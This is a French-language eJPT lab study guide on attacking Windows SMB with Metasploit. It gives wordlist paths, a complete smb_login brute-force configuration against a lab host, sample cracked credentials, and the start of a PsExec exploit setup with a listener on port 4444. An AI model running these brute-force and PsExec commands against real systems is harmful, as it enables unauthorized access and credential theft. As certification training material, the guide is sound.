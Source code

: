 ### Wordlists Metasploit essentielles
```bash
# Localisation wordlists MSF
ls /usr/share/metasploit-framework/data/wordlists/

# Principales wordlists
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
/usr/share/metasploit-framework/data/wordlists/common_passwords.txt
/usr/share/metasploit-framework/data/wordlists/passwords.lst

# Wordlists spécialisées Windows
/usr/share/metasploit-framework/data/wordlists/common_roots.txt
/usr/share/metasploit-framework/data/wordlists/default_users_for_services_unhash.txt
```

### Configuration brute force optimisée
```bash
# Configuration complète pour eJPT
use auxiliary/scanner/smb/smb_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set BLANK_PASSWORDS true
set USER_AS_PASS true
set VERBOSE false
set THREADS 16
set STOP_ON_SUCCESS true
exploit
```

### Interprétation des résultats
```bash
# Résultats typiques attendus :
[+] 192.168.1.100:445 - Success: '.\Administrator:qwertyuiop'
[+] 192.168.1.100:445 - Success: '.\guest:'
[+] 192.168.1.100:445 - Success: '.\user:password'
[+] 192.168.1.100:445 - Success: '.\backup:backup123'

# Format : IP:PORT - Success: 'DOMAIN\USER:PASSWORD'
```

---

## 💥 4. Exploitation PsExec avec Metasploit

### Module PsExec (windows/smb/psexec)
```bash
# Configuration module PsExec
msfconsole -q
use exploit/windows/smb/psexec
show options

# Configuration avec credentials trouvés
set RHOSTS demo.ine.local
set SMBUser Administrator
set SMBPass qwertyuiop
set LHOST your_kali_ip
set LPORT 4444

# Vérification avant exploitation
show options
show targets
```